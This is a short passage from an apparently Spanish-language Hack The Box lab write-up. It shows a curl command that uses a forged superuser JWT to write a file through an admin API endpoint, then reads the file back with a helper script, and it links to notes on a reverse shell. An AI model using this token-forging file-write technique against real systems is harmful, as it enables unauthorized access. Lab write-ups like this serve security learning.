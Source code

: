 ```bash
curl -s -X POST "http://10.10.11.162/api/v1/admin/file/$(echo -n "/tmp/pwned" | base64)" -H 'accept: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Mjc3OTkzLCJpYXQiOjE2NTQ1ODY3OTMsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllN2Y3ZDUtZjFkMy00NjM4LWEzNGQtNWU4MTUyNDU0ZjE0IiwiZGVidWciOnRydWV9.SaE7rWih1omJ5dVYpVRQxrrvcd9ro8NxwtrHby4_9z4' -H 'Content-Type: application/json' -d '{"file": "hola chavalito"}'
```

Ahora comprobamos intentando leer el archivo

```bash
❯ sudo ./getFile.sh -f /home/htb/tmp/pwned
[sudo] contraseña para riskoo: 
parse error: Invalid numeric literal at line 1, column 9
no se ha encontrado un valor válido
❯ sudo ./getFile.sh -f /tmp/pwned
hola chavalito

 el nombre del archivo es: /tmp/pwned
```


## Revert shell
[Revertshell](docs/9- Programs atack/know how revert shell.md)

## obtener la contraseña
